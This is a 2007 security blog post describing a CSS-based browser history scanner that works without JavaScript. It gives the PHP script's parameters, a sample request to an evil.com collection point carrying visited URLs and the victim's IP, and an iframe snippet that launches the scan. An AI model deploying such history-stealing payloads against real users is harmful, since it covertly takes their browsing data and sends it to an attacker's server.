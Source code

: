 ```yaml
---
title: Noscript HScan
author: petko-d-petkov
date: Wed, 28 Feb 2007 22:57:00 GMT
template: post.jade
category: fucked
---
```


After releasing my Firefox specific [history scanner](/blog/hscan-redux/), RSnake came up with [his own](http://ha.ckers.org/blog/20070228/steal-browser-history-without-javascript) bleeding edge history scanning technique which is based on Jeremiah Grossman's [implementation](http://jeremiahgrossman.blogspot.com/2006/08/i-know-where-youve-been.html) but it does not require JavaScript. This approach has its own limitations and advantages.

On the advantages side, you don't really need JavaScript to steal the victim's browser history anymore. So, everybody who is thinking that turning off JavaScript is the safe way to go, you are most definitely wrong. You should turn CSS off too. This is it. Sparten browsing is the key. On the other hand, history scanning without JavaScript is less powerful in a way that attackers are not able to perform actions as soon as a history entry is discovered.

Still, I think that RSnake's approach is quite interesting and innovative. I decided to write a generic scanner that can be configured on the fly to steal any browser history. The scanner is located [here](/files/2007/02/noscript-hscan-php.txt). Before using it you need to pass several GET or POST (it is up to you really) parameters to the script like this:

	noscript-hscan.php?u1=[url]&u2=[url]&t=[target collection point]

The scanner excepts any number of URLs. The only rule is that every URL parameters must start with **u** (lower case u). It is a good practice to number the URLs that you want to scan as u1, u2, u3, etc. The **t** parameter is for the target collection point. This is the place where the history information will be sent to. The collection point will receive requests that look like the following:

	http://evil.com/path/to/collection/point?u=[url]&t=[timestamp]&c=[ip]

The easiest way you can launch the generated scanning code is to include it inside an iframe. For example you can use something like the following:

```html
<iframe src="noscript-hscan.php?t=http%3A//evil.com/path/to/collection/point%3F&u0=http%3A//www.yahoo.com/&u1=http%3A//www.google.com/&u2=http%3A//www.myspace.com/&u3=http%3A//www.msn.com/&u4=http%3A//www.ebay.com/&"></iframe>
```

_This is it! It is simple._
